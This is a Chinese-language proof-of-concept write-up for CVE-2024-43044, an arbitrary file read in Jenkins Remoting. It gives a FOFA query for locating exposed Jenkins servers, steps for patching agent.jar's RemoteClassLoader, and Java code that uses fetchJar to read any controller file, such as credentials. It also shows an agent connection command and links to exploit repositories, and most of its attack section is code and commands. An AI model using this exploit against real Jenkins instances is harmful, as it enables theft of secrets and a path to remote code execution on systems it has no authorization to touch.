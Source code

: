 # Jenkins-Remoting任意文件读取漏洞(CVE-2024-43044)

Jenkins是一个开源的、提供持续集成服务（CI）的软件平台。Jenkins 使用 Remoting 库（通常为agent.jar或remoting.jar）实现控制器与代理之间的通信，该库允许代理从控制器加载类和类加载器资源，以便从控制器发送的 Java 对象（构建步骤等）可以在代理上执行。

**Jenkins Remoting任意文件读取漏洞(CVE-2024-43044)**，由于Remoting库ClassLoaderProxy#fetchJar方法没有限制代理请求从控制器文件系统读取的路径，可能导致**拥有Agent/Connect权限**的攻击者从Jenkins控制器文件系统读取任意文件（如凭证、配置文件等敏感信息）并进一步利用导致远程代码执行。

## fofa

```javascript
app="Jenkins"
```

## poc

通过`http://ip:port/jnlpJars/agent.jar`下载jar包

修改`\hudson\remoting\RemoteClassLoader.class`对应代码

![image-20240905091939652](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409050919209.png)

```java

try {  
    Scanner scanner = new Scanner(System.in);  
    System.out.print("输入读取文件path:");  
    String inputText = scanner.nextLine();  
    System.out.println("尝试读取:" + inputText);  
    URL jarFileUrl = new URL("file:///" + inputText);  
    byte[] fileContent = this.proxy.fetchJar(jarFileUrl);  
    String contentAsString = new String(fileContent, StandardCharsets.UTF_8);  
    System.out.println("文件内容:\n" + contentAsString);  
} catch (Exception var10) {  
    System.out.println("WRONG:" + var10);  
}
```

需提前获悉node的密钥和名称

![image-20240905092102978](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409050921039.png)

```java
java -jar agent.jar -url http://ip:port/ -secret <xxx> -name <xxx>
```

![image-20240905092434004](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409050924072.png)

### exp

```
https://github.com/convisolabs/CVE-2024-43044-jenkins
```



## 漏洞来源

- https://forum.butian.net/article/559
- https://github.com/v9d0g/CVE-2024-43044-POC
- https://github.com/convisolabs/CVE-2024-43044-jenkins
